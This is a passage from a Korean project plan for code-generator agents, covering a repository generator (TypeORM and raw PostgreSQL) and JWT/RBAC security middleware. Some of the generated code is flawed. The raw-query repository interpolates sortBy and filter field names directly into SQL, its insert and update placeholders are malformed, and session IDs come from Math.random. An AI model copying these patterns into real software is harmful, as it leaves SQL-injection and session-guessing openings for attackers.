            logger.error('Transaction rolled back', error);
            throw error;
        } finally {
            client.release();
        }
    }
}

// Decorator for transactional methods
export function Transactional() {
    return function (
        target: any,
        propertyKey: string,
        descriptor: PropertyDescriptor
    ) {
        const originalMethod = descriptor.value;

        descriptor.value = async function (...args: any[]) {
            const transactionManager = this.transactionManager;

            if (!transactionManager) {
                throw new Error('TransactionManager not found');
            }

            return transactionManager.executeInTransaction(async (client: any) => {
                // Inject client into method context
                this.transactionClient = client;

                try {
                    return await originalMethod.apply(this, args);
                } finally {
                    delete this.transactionClient;
                }
            });
        };

        return descriptor;
    };
}"""
```

**검증 기준**:

- [ ] 비즈니스 로직 캡슐화
- [ ] 트랜잭션 관리
- [ ] 검증 로직 자동화
- [ ] 서비스 레이어 패턴

#### SubTask 4.15.3: 데이터 접근 레이어 구현

**담당자**: 데이터베이스 개발자  
**예상 소요시간**: 10시간

**작업 내용**:

```python
# backend/src/agents/implementations/repository_generator.py
from typing import Dict, List, Optional, Any, Union
from dataclasses import dataclass
from enum import Enum

@dataclass
class RepositoryCode:
    name: str
    entity: str
    database_type: str
    orm: Optional[str]
    methods: List[RepositoryMethod]
    code: str
    interface: Optional[str]
    tests: Optional[str]

class RepositoryGenerator:
    """리포지토리 패턴 코드 생성기"""

    def __init__(self):
        self.query_builder = QueryBuilder()
        self.orm_mapper = ORMMapper()
        self.cache_strategy = CacheStrategy()

    async def generate(
        self,
        models: List[ModelCode],
        framework: str,
        database_type: str,
        use_orm: bool = True
    ) -> List[RepositoryCode]:
        """리포지토리 생성"""

        repositories = []

        for model in models:
            repository = await self._generate_repository(
                model,
                framework,
                database_type,
                use_orm
            )
            repositories.append(repository)

        # 공통 리포지토리 기반 클래스
        base_repository = await self._generate_base_repository(
            framework,
            database_type,
            use_orm
        )
        repositories.insert(0, base_repository)

        return repositories

    async def _generate_repository(
        self,
        model: ModelCode,
        framework: str,
        database_type: str,
        use_orm: bool
    ) -> RepositoryCode:
        """개별 리포지토리 생성"""

        if framework in ['express', 'nestjs']:
            return await self._generate_typescript_repository(
                model, database_type, use_orm
            )
        elif framework == 'fastapi':
            return await self._generate_python_repository(
                model, database_type, use_orm
            )
        elif framework == 'spring':
            return await self._generate_java_repository(
                model, database_type
            )
        else:
            return await self._generate_generic_repository(
                model, database_type
            )

    async def _generate_typescript_repository(
        self,
        model: ModelCode,
        database_type: str,
        use_orm: bool
    ) -> RepositoryCode:
        """TypeScript 리포지토리 생성"""

        repository_name = f"{model.name}Repository"
        interface_name = f"I{repository_name}"

        if use_orm and database_type == 'postgresql':
            orm = 'typeorm'
            code = self._generate_typeorm_repository(model, repository_name)
        elif use_orm and database_type == 'mongodb':
            orm = 'mongoose'
            code = self._generate_mongoose_repository(model, repository_name)
        else:
            orm = None
            code = self._generate_raw_query_repository(
                model, repository_name, database_type
            )

        interface_code = self._generate_repository_interface(
            model, interface_name
        )

        return RepositoryCode(
            name=repository_name,
            entity=model.name,
            database_type=database_type,
            orm=orm,
            methods=self._extract_repository_methods(model),
            code=code,
            interface=interface_code,
            tests=await self._generate_repository_tests(repository_name, model)
        )

    def _generate_typeorm_repository(
        self,
        model: ModelCode,
        repository_name: str
    ) -> str:
        """TypeORM 리포지토리 생성"""

        return f"""
import {{ injectable }} from 'inversify';
import {{ Repository, EntityRepository, SelectQueryBuilder, DeepPartial }} from 'typeorm';
import {{ {model.name} }} from '../entities/{model.name}';
import {{ I{repository_name} }} from './interfaces/I{repository_name}';
import {{ BaseRepository }} from './BaseRepository';
import {{
    PaginationParams,
    PaginatedResult,
    SortOrder,
    FilterOperator
}} from '../types/repository';
import {{ CacheManager }} from '../utils/cache';
import {{ logger }} from '../utils/logger';

@injectable()
@EntityRepository({model.name})
export class {repository_name} extends BaseRepository<{model.name}> implements I{repository_name} {{
    constructor() {{
        super({model.name});
    }}

    /**
     * Find by unique fields
     */
    async findByUniqueFields(fields: Partial<{model.name}>): Promise<{model.name} | null> {{
        const queryBuilder = this.createQueryBuilder('entity');

        // Add unique field conditions
        {self._generate_unique_field_conditions(model)}

        const result = await queryBuilder.getOne();

        if (result) {{
            await this.cacheResult(`${{this.entityName}}:unique:${{JSON.stringify(fields)}}`, result);
        }}

        return result;
    }}

    /**
     * Find with relations
     */
    async findWithRelations(
        id: string,
        relations: string[]
    ): Promise<{model.name} | null> {{
        const cacheKey = `${{this.entityName}}:${{id}}:relations:${{relations.join(',')}}`;

        // Check cache
        const cached = await this.cache.get<{model.name}>(cacheKey);
        if (cached) return cached;

        const queryBuilder = this.createQueryBuilder('entity')
            .where('entity.id = :id', {{ id }});

        // Add relations
        relations.forEach(relation => {{
            queryBuilder.leftJoinAndSelect(`entity.${{relation}}`, relation);
        }});

        const result = await queryBuilder.getOne();

        if (result) {{
            await this.cacheResult(cacheKey, result);
        }}

        return result;
    }}

    /**
     * Complex search with filters
     */
    async search(params: Search{model.name}Params): Promise<PaginatedResult<{model.name}>> {{
        const queryBuilder = this.createQueryBuilder('entity');

        // Apply filters
        {self._generate_search_filters(model)}

        // Apply sorting
        if (params.sortBy) {{
            const order = params.sortOrder || 'ASC';
            queryBuilder.orderBy(`entity.${{params.sortBy}}`, order);
        }}

        // Apply pagination
        const [items, total] = await queryBuilder
            .skip((params.page - 1) * params.limit)
            .take(params.limit)
            .getManyAndCount();

        return {{
            items,
            total,
            page: params.page,
            limit: params.limit,
            totalPages: Math.ceil(total / params.limit)
        }};
    }}

    /**
     * Bulk operations
     */
    async bulkCreate(entities: DeepPartial<{model.name}>[]): Promise<{model.name}[]> {{
        const chunks = this.chunkArray(entities, 1000); // Process in chunks
        const results: {model.name}[] = [];

        for (const chunk of chunks) {{
            const created = await this.repository
                .createQueryBuilder()
                .insert()
                .into({model.name})
                .values(chunk)
                .returning('*')
                .execute();

            results.push(...created.generatedMaps as {model.name}[]);
        }}

        // Clear list cache
        await this.cache.invalidate(`${{this.entityName}}:list:*`);

        return results;
    }}

    /**
     * Optimized count queries
     */
    async countByStatus(status: string): Promise<number> {{
        const cacheKey = `${{this.entityName}}:count:status:${{status}}`;

        const cached = await this.cache.get<number>(cacheKey);
        if (cached !== null) return cached;

        const count = await this.repository
            .createQueryBuilder('entity')
            .where('entity.status = :status', {{ status }})
            .getCount();

        await this.cache.set(cacheKey, count, 300); // 5 minutes

        return count;
    }}

    /**
     * Custom aggregations
     */
    async getAggregatedStats(): Promise<any> {{
        const result = await this.repository
            .createQueryBuilder('entity')
            .select('entity.status', 'status')
            .addSelect('COUNT(*)', 'count')
            .addSelect('AVG(entity.value)', 'avgValue')
            .addSelect('MAX(entity.createdAt)', 'lastCreated')
            .groupBy('entity.status')
            .getRawMany();

        return result;
    }}

    /**
     * Soft delete with cascade
     */
    async softDeleteWithRelations(id: string): Promise<void> {{
        await this.manager.transaction(async transactionalEntityManager => {{
            // Soft delete main entity
            await transactionalEntityManager
                .createQueryBuilder()
                .update({model.name})
                .set({{ deletedAt: new Date() }})
                .where('id = :id', {{ id }})
                .execute();

            // Soft delete related entities
            {self._generate_cascade_soft_delete(model)}
        }});

        // Clear caches
        await this.cache.invalidate(`${{this.entityName}}:${{id}}*`);
    }}

    /**
     * Performance optimized queries
     */
    private applyOptimizations(queryBuilder: SelectQueryBuilder<{model.name}>): void {{
        // Use indexes
        queryBuilder.useIndex('idx_{model.name.lower()}_status_created');

        // Limit selected fields for list queries
        if (this.isListQuery) {{
            queryBuilder.select([
                'entity.id',
                'entity.name',
                'entity.status',
                'entity.createdAt'
            ]);
        }}

        // Add query hints
        queryBuilder.setQueryHint('max_parallel_workers_per_gather', '4');
    }}
}}"""

    def _generate_raw_query_repository(
        self,
        model: ModelCode,
        repository_name: str,
        database_type: str
    ) -> str:
        """Raw Query 리포지토리 생성"""

        if database_type == 'postgresql':
            return self._generate_pg_repository(model, repository_name)
        elif database_type == 'mysql':
            return self._generate_mysql_repository(model, repository_name)
        elif database_type == 'mongodb':
            return self._generate_mongodb_raw_repository(model, repository_name)
        else:
            return self._generate_generic_sql_repository(model, repository_name)

    def _generate_pg_repository(
        self,
        model: ModelCode,
        repository_name: str
    ) -> str:
        """PostgreSQL Raw Query 리포지토리"""

        return f"""
import {{ injectable, inject }} from 'inversify';
import {{ Pool, PoolClient }} from 'pg';
import {{ I{repository_name} }} from './interfaces/I{repository_name}';
import {{ {model.name} }} from '../models/{model.name}';
import {{ BaseRepository }} from './BaseRepository';
import {{ DatabaseError, NotFoundError }} from '../errors';
import {{ logger }} from '../utils/logger';

@injectable()
export class {repository_name} extends BaseRepository implements I{repository_name} {{
    private tableName = '{self._to_snake_case(model.name)}s';

    constructor(
        @inject('DatabasePool') private pool: Pool,
        @inject('CacheManager') private cache: CacheManager
    ) {{
        super();
    }}

    async create(data: Create{model.name}Dto, client?: PoolClient): Promise<{model.name}> {{
        const connection = client || await this.pool.connect();

        try {{
            const fields = Object.keys(data);
            const values = Object.values(data);
            const placeholders = fields.map((_, i) => `${{i + 1}}`).join(', ');

            const query = `
                INSERT INTO ${{this.tableName}} (${{fields.join(', ')}})
                VALUES (${{placeholders}})
                RETURNING *
            `;

            const result = await connection.query(query, values);

            if (!client) await connection.release();

            return this.mapToEntity(result.rows[0]);
        }} catch (error) {{
            if (!client) await connection.release();
            logger.error('Error creating {model.name}', error);
            throw new DatabaseError('Failed to create {model.name}');
        }}
    }}

    async findById(id: string, client?: PoolClient): Promise<{model.name} | null> {{
        const cacheKey = `${{this.tableName}}:${{id}}`;

        // Check cache
        const cached = await this.cache.get<{model.name}>(cacheKey);
        if (cached) return cached;

        const connection = client || await this.pool.connect();

        try {{
            const query = `
                SELECT * FROM ${{this.tableName}}
                WHERE id = $1 AND deleted_at IS NULL
            `;

            const result = await connection.query(query, [id]);

            if (!client) await connection.release();

            if (result.rows.length === 0) {{
                return null;
            }}

            const entity = this.mapToEntity(result.rows[0]);

            // Cache result
            await this.cache.set(cacheKey, entity, 3600);

            return entity;
        }} catch (error) {{
            if (!client) await connection.release();
            logger.error('Error finding {model.name} by id', {{ id, error }});
            throw new DatabaseError('Failed to find {model.name}');
        }}
    }}

    async update(
        id: string,
        data: Update{model.name}Dto,
        client?: PoolClient
    ): Promise<{model.name}> {{
        const connection = client || await this.pool.connect();

        try {{
            const fields = Object.keys(data);
            const values = Object.values(data);

            const setClause = fields
                .map((field, i) => `${{field}} = ${{i + 2}}`)
                .join(', ');

            const query = `
                UPDATE ${{this.tableName}}
                SET ${{setClause}}, updated_at = CURRENT_TIMESTAMP
                WHERE id = $1 AND deleted_at IS NULL
                RETURNING *
            `;

            const result = await connection.query(query, [id, ...values]);

            if (!client) await connection.release();

            if (result.rows.length === 0) {{
                throw new NotFoundError('{model.name} not found');
            }}

            // Clear cache
            await this.cache.delete(`${{this.tableName}}:${{id}}`);

            return this.mapToEntity(result.rows[0]);
        }} catch (error) {{
            if (!client) await connection.release();
            logger.error('Error updating {model.name}', {{ id, error }});
            throw error;
        }}
    }}

    async findMany(params: Find{model.name}Params): Promise<Paginated{model.name}> {{
        const {{
            page = 1,
            limit = 20,
            sortBy = 'created_at',
            sortOrder = 'DESC',
            filters = {{}}
        }} = params;

        const offset = (page - 1) * limit;

        const connection = await this.pool.connect();

        try {{
            // Build WHERE clause
            const {{ whereClause, whereValues }} = this.buildWhereClause(filters);

            // Count query
            const countQuery = `
                SELECT COUNT(*) FROM ${{this.tableName}}
                WHERE deleted_at IS NULL ${{whereClause}}
            `;

            const countResult = await connection.query(countQuery, whereValues);
            const total = parseInt(countResult.rows[0].count);

            // Data query
            const dataQuery = `
                SELECT * FROM ${{this.tableName}}
                WHERE deleted_at IS NULL ${{whereClause}}
                ORDER BY ${{sortBy}} ${{sortOrder}}
                LIMIT ${{whereValues.length + 1}} OFFSET ${{whereValues.length + 2}}
            `;

            const dataResult = await connection.query(
                dataQuery,
                [...whereValues, limit, offset]
            );

            await connection.release();

            const items = dataResult.rows.map(row => this.mapToEntity(row));

            return {{
                items,
                total,
                page,
                limit,
                totalPages: Math.ceil(total / limit)
            }};
        }} catch (error) {{
            await connection.release();
            logger.error('Error finding many {model.name}s', {{ params, error }});
            throw new DatabaseError('Failed to find {model.name}s');
        }}
    }}

    async executeRawQuery<T>(
        query: string,
        params: any[],
        client?: PoolClient
    ): Promise<T[]> {{
        const connection = client || await this.pool.connect();

        try {{
            const result = await connection.query(query, params);

            if (!client) await connection.release();

            return result.rows;
        }} catch (error) {{
            if (!client) await connection.release();
            logger.error('Error executing raw query', {{ query, params, error }});
            throw new DatabaseError('Query execution failed');
        }}
    }}

    private buildWhereClause(
        filters: Record<string, any>
    ): {{ whereClause: string; whereValues: any[] }} {{
        const conditions: string[] = [];
        const values: any[] = [];
        let paramIndex = 1;

        for (const [field, value] of Object.entries(filters)) {{
            if (value === null || value === undefined) continue;

            if (Array.isArray(value)) {{
                // IN clause
                const placeholders = value.map(() => `$${{paramIndex++}}`).join(', ');
                conditions.push(`${{field}} IN (${{placeholders}})`);
                values.push(...value);
            }} else if (typeof value === 'object' && value.operator) {{
                // Complex operators
                switch (value.operator) {{
                    case 'gte':
                        conditions.push(`${{field}} >= $${{paramIndex++}}`);
                        values.push(value.value);
                        break;
                    case 'lte':
                        conditions.push(`${{field}} <= $${{paramIndex++}}`);
                        values.push(value.value);
                        break;
                    case 'like':
                        conditions.push(`${{field}} ILIKE $${{paramIndex++}}`);
                        values.push(`%${{value.value}}%`);
                        break;
                    case 'between':
                        conditions.push(`${{field}} BETWEEN $${{paramIndex++}} AND $${{paramIndex++}}`);
                        values.push(value.from, value.to);
                        break;
                }}
            }} else {{
                // Exact match
                conditions.push(`${{field}} = $${{paramIndex++}}`);
                values.push(value);
            }}
        }}

        const whereClause = conditions.length > 0
            ? ` AND ${{conditions.join(' AND ')}}`
            : '';

        return {{ whereClause, whereValues: values }};
    }}

    private mapToEntity(row: any): {model.name} {{
        return {{
            {self._generate_entity_mapping(model)}
        }};
    }}
}}"""

class QueryBuilder:
    """쿼리 빌더 헬퍼"""

    def build_select_query(
        self,
        table: str,
        fields: List[str],
        conditions: Dict[str, Any],
        joins: List[Join] = None,
        order_by: List[OrderBy] = None,
        limit: Optional[int] = None,
        offset: Optional[int] = None
    ) -> Tuple[str, List[Any]]:
        """SELECT 쿼리 생성"""

        # SELECT clause
        select_clause = f"SELECT {', '.join(fields)} FROM {table}"

        # JOIN clause
        join_clause = ""
        if joins:
            join_clause = " ".join([
                f"{join.type} JOIN {join.table} ON {join.condition}"
                for join in joins
            ])

        # WHERE clause
        where_clause, params = self._build_where_clause(conditions)

        # ORDER BY clause
        order_clause = ""
        if order_by:
            order_clause = f" ORDER BY {', '.join([f'{ob.field} {ob.direction}' for ob in order_by])}"

        # LIMIT/OFFSET
        limit_clause = ""
        if limit:
            limit_clause = f" LIMIT {limit}"
            if offset:
                limit_clause += f" OFFSET {offset}"

        query = f"{select_clause} {join_clause} {where_clause} {order_clause} {limit_clause}"

        return query.strip(), params
```

**검증 기준**:

- [ ] 다양한 데이터베이스 지원
- [ ] ORM 및 Raw Query 지원
- [ ] 성능 최적화 쿼리
- [ ] 캐싱 전략 구현

#### SubTask 4.15.4: 보안 및 인증 구현

**담당자**: 보안 엔지니어  
**예상 소요시간**: 12시간

**작업 내용**:

```typescript
// backend/src/agents/implementations/security-implementation-generator.ts
interface SecurityImplementation {
  authentication: AuthenticationCode;
  authorization: AuthorizationCode;
  middleware: SecurityMiddleware[];
  utilities: SecurityUtilities;
  configuration: SecurityConfiguration;
}

class SecurityImplementationGenerator {
  async generateSecurityImplementation(
    requirements: SecurityRequirements,
    framework: string,
  ): Promise<SecurityImplementation> {
    const implementation: SecurityImplementation = {
      authentication: await this.generateAuthentication(requirements, framework),
      authorization: await this.generateAuthorization(requirements, framework),
      middleware: await this.generateSecurityMiddleware(requirements, framework),
      utilities: await this.generateSecurityUtilities(framework),
      configuration: await this.generateSecurityConfig(requirements),
    };

    return implementation;
  }

  private async generateAuthentication(
    requirements: SecurityRequirements,
    framework: string,
  ): Promise<AuthenticationCode> {
    const authStrategies = [];

    // JWT Authentication
    if (requirements.authMethods.includes('jwt')) {
      authStrategies.push(this.generateJWTAuth(framework));
    }

    // OAuth2 Authentication
    if (requirements.authMethods.includes('oauth2')) {
      authStrategies.push(this.generateOAuth2Auth(framework));
    }

    // API Key Authentication
    if (requirements.authMethods.includes('apiKey')) {
      authStrategies.push(this.generateAPIKeyAuth(framework));
    }

    return {
      strategies: authStrategies,
      mainAuthFile: this.generateMainAuthFile(authStrategies, framework),
    };
  }

  private generateJWTAuth(framework: string): string {
    if (framework === 'express' || framework === 'nestjs') {
      return this.generateNodeJWTAuth();
    } else if (framework === 'fastapi') {
      return this.generatePythonJWTAuth();
    }
    return '';
  }

  private generateNodeJWTAuth(): string {
    return `
import jwt from 'jsonwebtoken';
import bcrypt from 'bcrypt';
import { Request, Response, NextFunction } from 'express';
import { User } from '../models/User';
import { UnauthorizedError, ForbiddenError } from '../errors';
import { redis } from '../utils/redis';
import { config } from '../config';

export interface JWTPayload {
  userId: string;
  email: string;
  roles: string[];
  permissions: string[];
  sessionId: string;
}

export class JWTAuthService {
  private readonly accessTokenSecret = config.jwt.accessSecret;
  private readonly refreshTokenSecret = config.jwt.refreshSecret;
  private readonly accessTokenExpiry = config.jwt.accessExpiry;
  private readonly refreshTokenExpiry = config.jwt.refreshExpiry;
  private readonly issuer = config.jwt.issuer;
  private readonly audience = config.jwt.audience;
  
  /**
   * Generate access and refresh tokens
   */
  async generateTokens(user: User): Promise<{
    accessToken: string;
    refreshToken: string;
    expiresIn: number;
  }> {
    const sessionId = this.generateSessionId();
    
    const payload: JWTPayload = {
      userId: user.id,
      email: user.email,
      roles: user.roles,
      permissions: await this.getUserPermissions(user),
      sessionId
    };
    
    const accessToken = jwt.sign(payload, this.accessTokenSecret, {
      expiresIn: this.accessTokenExpiry,
      issuer: this.issuer,
      audience: this.audience,
      subject: user.id
    });
    
    const refreshToken = jwt.sign(
      { userId: user.id, sessionId },
      this.refreshTokenSecret,
      {
        expiresIn: this.refreshTokenExpiry,
        issuer: this.issuer,
        audience: this.audience,
        subject: user.id
      }
    );
    
    // Store refresh token in Redis
    await this.storeRefreshToken(user.id, refreshToken, sessionId);
    
    // Store session data
    await this.storeSession(sessionId, payload);
    
    return {
      accessToken,
      refreshToken,
      expiresIn: this.getExpiryInSeconds(this.accessTokenExpiry)
    };
  }
  
  /**
   * Verify and decode access token
   */
  async verifyAccessToken(token: string): Promise<JWTPayload> {
    try {
      const decoded = jwt.verify(token, this.accessTokenSecret, {
        issuer: this.issuer,
        audience: this.audience
      }) as JWTPayload;
      
      // Check if session is still valid
      const sessionValid = await this.isSessionValid(decoded.sessionId);
      if (!sessionValid) {
        throw new UnauthorizedError('Session expired');
      }
      
      // Check if token is blacklisted
      const isBlacklisted = await this.isTokenBlacklisted(token);
      if (isBlacklisted) {
        throw new UnauthorizedError('Token has been revoked');
      }
      
      return decoded;
    } catch (error) {
      if (error instanceof jwt.TokenExpiredError) {
        throw new UnauthorizedError('Token expired');
      } else if (error instanceof jwt.JsonWebTokenError) {
        throw new UnauthorizedError('Invalid token');
      }
      throw error;
    }
  }
  
  /**
   * Refresh access token
   */
  async refreshAccessToken(refreshToken: string): Promise<{
    accessToken: string;
    expiresIn: number;
  }> {
    try {
      const decoded = jwt.verify(refreshToken, this.refreshTokenSecret, {
        issuer: this.issuer,
        audience: this.audience
      }) as { userId: string; sessionId: string };
      
      // Verify refresh token exists in store
      const storedToken = await this.getStoredRefreshToken(
        decoded.userId,
        decoded.sessionId
      );
      
      if (!storedToken || storedToken !== refreshToken) {
        throw new UnauthorizedError('Invalid refresh token');
      }
      
      // Get user and generate new access token
      const user = await User.findById(decoded.userId);
      if (!user) {
        throw new UnauthorizedError('User not found');
      }
      
      const payload: JWTPayload = {
        userId: user.id,
        email: user.email,
        roles: user.roles,
        permissions: await this.getUserPermissions(user),
        sessionId: decoded.sessionId
      };
      
      const accessToken = jwt.sign(payload, this.accessTokenSecret, {
        expiresIn: this.accessTokenExpiry,
        issuer: this.issuer,
        audience: this.audience,
        subject: user.id
      });
      
      return {
        accessToken,
        expiresIn: this.getExpiryInSeconds(this.accessTokenExpiry)
      };
    } catch (error) {
      if (error instanceof jwt.TokenExpiredError) {
        throw new UnauthorizedError('Refresh token expired');
      }
      throw error;
    }
  }
  
  /**
   * Revoke tokens
   */
  async revokeTokens(userId: string, sessionId?: string): Promise<void> {
    if (sessionId) {
      // Revoke specific session
      await this.revokeSession(sessionId);
      await this.removeRefreshToken(userId, sessionId);
    } else {
      // Revoke all sessions for user
      const sessions = await this.getUserSessions(userId);
      for (const session of sessions) {
        await this.revokeSession(session);
      }
      await this.removeAllRefreshTokens(userId);
    }
  }
  
  /**
   * Middleware to protect routes
   */
  authenticate = async (
    req: Request,
    res: Response,
    next: NextFunction
  ): Promise<void> => {
    try {
      const token = this.extractToken(req);
      if (!token) {
        throw new UnauthorizedError('No token provided');
      }
      
      const decoded = await this.verifyAccessToken(token);
      
      // Attach user info to request
      (req as any).user = decoded;
      (req as any).token = token;
      
      next();
    } catch (error) {
      next(error);
    }
  };
  
  /**
   * Extract token from request
   */
  private extractToken(req: Request): string | null {
    // Check Authorization header
    const authHeader = req.headers.authorization;
    if (authHeader && authHeader.startsWith('Bearer ')) {
      return authHeader.substring(7);
    }
    
    // Check cookies
    if (req.cookies && req.cookies.accessToken) {
      return req.cookies.accessToken;
    }
    
    // Check query parameter (for WebSocket connections)
    if (req.query && req.query.token) {
      return req.query.token as string;
    }
    
    return null;
  }
  
  /**
   * Session management
   */
  private async storeSession(
    sessionId: string,
    data: JWTPayload
  ): Promise<void> {
    await redis.setex(
      \`session:\${sessionId}\`,
      this.getExpiryInSeconds(this.refreshTokenExpiry),
      JSON.stringify(data)
    );
    
    // Add to user's session list
    await redis.sadd(\`user:sessions:\${data.userId}\`, sessionId);
  }
  
  private async isSessionValid(sessionId: string): Promise<boolean> {
    const session = await redis.get(\`session:\${sessionId}\`);
    return !!session;
  }
  
  private async revokeSession(sessionId: string): Promise<void> {
    const session = await redis.get(\`session:\${sessionId}\`);
    if (session) {
      const data = JSON.parse(session) as JWTPayload;
      await redis.srem(\`user:sessions:\${data.userId}\`, sessionId);
    }
    await redis.del(\`session:\${sessionId}\`);
  }
  
  /**
   * Token blacklisting
   */
  private async blacklistToken(token: string): Promise<void> {
    const decoded = jwt.decode(token) as any;
    const ttl = decoded.exp - Math.floor(Date.now() / 1000);
    
    if (ttl > 0) {
      await redis.setex(\`blacklist:token:\${token}\`, ttl, '1');
    }
  }
  
  private async isTokenBlacklisted(token: string): Promise<boolean> {
    const blacklisted = await redis.get(\`blacklist:token:\${token}\`);
    return !!blacklisted;
  }
  
  /**
   * Helper methods
   */
  private generateSessionId(): string {
    return \`sess_\${Date.now()}_\${Math.random().toString(36).substr(2, 9)}\`;
  }
  
  private getExpiryInSeconds(expiry: string): number {
    const units: Record<string, number> = {
      s: 1,
      m: 60,
      h: 3600,
      d: 86400
    };
    
    const match = expiry.match(/^(\d+)([smhd])$/);
    if (!match) {
      throw new Error('Invalid expiry format');
    }
    
    return parseInt(match[1]) * units[match[2]];
  }
  
  private async getUserPermissions(user: User): Promise<string[]> {
    // Load permissions based on roles
    const permissions = new Set<string>();
    
    for (const role of user.roles) {
      const rolePermissions = await this.getRolePermissions(role);
      rolePermissions.forEach(p => permissions.add(p));
    }
    
    // Add user-specific permissions
    if (user.permissions) {
      user.permissions.forEach(p => permissions.add(p));
    }
    
    return Array.from(permissions);
  }
}

export const jwtAuth = new JWTAuthService();
`;
  }
}

// Authorization implementation
class AuthorizationGenerator {
  generateRBACAuthorization(framework: string): string {
    return `
import { Request, Response, NextFunction } from 'express';
import { ForbiddenError } from '../errors';
import { logger } from '../utils/logger';

export interface Permission {
  resource: string;
  action: string;
  scope?: string;
}

export interface Role {
  id: string;
  name: string;
  permissions: Permission[];
  parent?: string; // For role hierarchy
}

export class RBACService {
  private roles: Map<string, Role> = new Map();
  private permissionCache: Map<string, Set<string>> = new Map();
  
  constructor() {
    this.loadRoles();
  }
  
  /**
   * Check if user has required permission
   */
  hasPermission(
    userRoles: string[],
    requiredPermission: Permission
  ): boolean {
    for (const roleName of userRoles) {
      const permissions = this.getRolePermissions(roleName);
      
      for (const permission of permissions) {
        if (this.matchPermission(permission, requiredPermission)) {
          return true;
        }
      }
    }
    
    return false;
  }
  
  /**
   * Middleware to check permissions
   */
  requirePermission(permission: Permission | string) {
    return async (req: Request, res: Response, next: NextFunction) => {
      try {
        const user = (req as any).user;
        if (!user) {
          throw new ForbiddenError('User not authenticated');
        }
        
        const requiredPermission = typeof permission === 'string'
          ? this.parsePermissionString(permission)
          : permission;
        
        const hasAccess = this.hasPermission(user.roles, requiredPermission);
        
        if (!hasAccess) {
          logger.warn('Permission denied', {
            userId: user.userId,
            permission: requiredPermission,
            roles: user.roles
          });
          
          throw new ForbiddenError(
            \`Permission denied: \${requiredPermission.resource}:\${requiredPermission.action}\`
          );
        }
        
        // Check resource-level permissions
        if (requiredPermission.scope === 'own') {
          await this.checkResourceOwnership(req, requiredPermission);
        }
        
        next();
      } catch (error) {
        next(error);
      }
    };
  }
  
  /**
   * Middleware to require any of the permissions
   */
  requireAnyPermission(permissions: (Permission | string)[]) {
    return async (req: Request, res: Response, next: NextFunction) => {
      const user = (req as any).user;
      if (!user) {
        return next(new ForbiddenError('User not authenticated'));
      }
      
      for (const permission of permissions) {
        const requiredPermission = typeof permission === 'string'
          ? this.parsePermissionString(permission)
          : permission;
        
        if (this.hasPermission(user.roles, requiredPermission)) {
          return next();
        }
      }
      
      next(new ForbiddenError('Insufficient permissions'));
    };
  }
  
  /**
   * Check resource ownership
   */
  private async checkResourceOwnership(
    req: Request,
    permission: Permission
  ): Promise<void> {
    const user = (req as any).user;
    const resourceId = req.params.id || req.params[permission.resource + 'Id'];
    
    if (!resourceId) {
      return; // No specific resource to check
    }
    
    // Resource-specific ownership checks
    switch (permission.resource) {
      case 'user':
        if (resourceId !== user.userId) {
          throw new ForbiddenError('Can only access own user data');
        }
        break;
        
      case 'organization':
        const isMember = await this.checkOrganizationMembership(
          user.userId,
          resourceId
        );
        if (!isMember) {
          throw new ForbiddenError('Not a member of this organization');
        }
        break;
        
      default:
        // Generic ownership check
        const isOwner = await this.checkGenericOwnership(
          permission.resource,
          resourceId,
          user.userId
        );
        if (!isOwner) {
          throw new ForbiddenError(
            \`You do not own this \${permission.resource}\`
          );
        }
    }
  }
  
  /**
   * Role hierarchy support
   */
  private getRolePermissions(roleName: string): Permission[] {
    const cacheKey = \`role:\${roleName}\`;
    
    if (this.permissionCache.has(cacheKey)) {
      return Array.from(this.permissionCache.get(cacheKey)!)
        .map(p => this.parsePermissionString(p));
    }
    
    const permissions = new Set<string>();
    const role = this.roles.get(roleName);
    
    if (!role) {
      return [];
    }
    
    // Add role's own permissions
    role.permissions.forEach(p => {
      permissions.add(\`\${p.resource}:\${p.action}:\${p.scope || '*'}\`);
    });
    
    // Add parent role permissions (inheritance)
    if (role.parent) {
      const parentPermissions = this.getRolePermissions(role.parent);
      parentPermissions.forEach(p => {
        permissions.add(\`\${p.resource}:\${p.action}:\${p.scope || '*'}\`);
      });
    }
    
    this.permissionCache.set(cacheKey, permissions);
    
    return Array.from(permissions).map(p => this.parsePermissionString(p));
  }
  
  /**
   * Permission matching with wildcards
   */
  private matchPermission(
    userPermission: Permission,
    requiredPermission: Permission
  ): boolean {
    // Wildcard matching
    if (userPermission.resource === '*' || 
        userPermission.resource === requiredPermission.resource) {
      
      if (userPermission.action === '*' || 
          userPermission.action === requiredPermission.action) {
        
        if (!requiredPermission.scope || 
            userPermission.scope === '*' || 
            userPermission.scope === requiredPermission.scope) {
          return true;
        }
      }
    }
    
    return false;
  }
  
  /**
   * Load roles from configuration or database
   */
  private async loadRoles(): Promise<void> {
    // Default roles
    this.roles.set('super_admin', {
      id: 'super_admin',
      name: 'Super Admin',
      permissions: [{ resource: '*', action: '*' }]
    });
    
    this.roles.set('admin', {
      id: 'admin',
      name: 'Admin',
      permissions: [
        { resource: 'user', action: '*' },
        { resource: 'organization', action: '*' },
        { resource: 'settings', action: '*' }
      ],
      parent: 'user'
    });
    
    this.roles.set('user', {
      id: 'user',
      name: 'User',
      permissions: [
        { resource: 'user', action: 'read', scope: 'own' },
        { resource: 'user', action: 'update', scope: 'own' },
        { resource: 'organization', action: 'read', scope: 'member' }
      ]
    });
    
    // Load custom roles from database
    // const customRoles = await RoleModel.find();
    // customRoles.forEach(role => this.roles.set(role.id, role));
  }
  
  /**
   * Parse permission string
   */
  private parsePermissionString(permission: string): Permission {
    const parts = permission.split(':');
    return {
      resource: parts[0],
      action: parts[1],
      scope: parts[2] !== '*' ? parts[2] : undefined
    };
  }
}

export const rbac = new RBACService();

// Helper decorators for class-based controllers
export function RequireAuth(target: any, propertyKey: string, descriptor: PropertyDescriptor) {
  const originalMethod = descriptor.value;
  
  descriptor.value = async function(...args: any[]) {
    const [req, res, next] = args;
    
    try {
      if (!(req as any).user) {
        throw new ForbiddenError('Authentication required');
      }
      
      return await originalMethod.apply(this, args);
    } catch (error) {
      next(error);
    }
  };
  
  return descriptor;
}

export function RequirePermission(permission: string | Permission) {
  return function(target: any, propertyKey: string, descriptor: PropertyDescriptor) {
    const originalMethod = descriptor.value;
    
    descriptor.value = async function(...args: any[]) {
      const [req, res, next] = args;
      
      try {
        const user = (req as any).user;
        if (!user) {
          throw new ForbiddenError('Authentication required');
        }
        
        const requiredPermission = typeof permission === 'string'
          ? rbac.parsePermissionString(permission)
          : permission;
        
        if (!rbac.hasPermission(user.roles, requiredPermission)) {
          throw new ForbiddenError('Insufficient permissions');
        }
        
        return await originalMethod.apply(this, args);
